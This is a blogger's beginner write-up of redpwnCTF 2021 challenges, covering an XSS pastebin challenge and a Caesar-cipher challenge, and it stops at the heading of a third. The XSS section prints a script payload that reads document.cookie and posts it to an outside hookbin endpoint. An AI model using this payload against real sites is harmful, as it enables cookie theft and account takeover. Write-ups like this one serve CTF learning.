 [meta]: <title> (redpwnCTF 2021)
[meta]: <subtitle> (A noob's perspective)
[meta]: <author> (Loek)
[meta]: <date> (July 13 2021)
[meta]: <tags> (hacking, CTF, writeup)
[meta]: <cover> (/img/redpwn2021.png)

This is the first 'real' CTF I've participated in. About two weeks ago, a
friend of mine was stuck on some challenges from the Radboud CTF. This was a
closed CTF more geared towards beginners (high school students), and only had a
few challenges which required deeper technical knowledge of web servers and
programming. Willem solved most of the challenges, and I helped solve 3 more.

Apart from those challenges, basically all my hacking knowledge comes from
computerphile videos, liveoverflow videos and making applications myself.

## Challenges

### web/pastebin-1

This challenge is a simple XSS exploit. The website that's vulnerable is
supposed to be a clone of pastebin. I can enter any text into the paste area,
and it will get inserted as HTML code into the website when someone visits the
generated link.

The challenge has two sites: one with the pastebin clone, and one that visits
any pastebin url as the website administrator. The goal of this challenge is
given by it's description:

> Ah, the classic pastebin. Can you get the admin's cookies?

In JS, you can read all cookies without the `HttpOnly` attribute by reading
`document.cookie`. This allows us to read the cookies from the admin's browser,
but now we have to figure out a way to get them sent back to us.

Luckily, there's a free service called [hookbin](https://hookbin.com/) that
gives you an http endpoint to send anything to, and look at the request
details.

Combining these two a simple paste can be created:

```html
<script>
	var post = new XMLHttpRequest();
	post.open("post", "https://hookb.in/<endpoint url>");
	post.send(document.cookie);
</script>
```

### crypto/scissor

I wasn't planning on including this one, but it makes use of the excellent
[CyberChef](https://gchq.github.io/CyberChef/) tool. The flag is given in the
challenge description, and is encrypted using a ceasar/rot13 cipher. A simple
python implementation of this cypher is included with the challenge, but I just
put it into CyberChef and started trying different offsets.

### rev/wstrings

> Some strings are wider than normal...
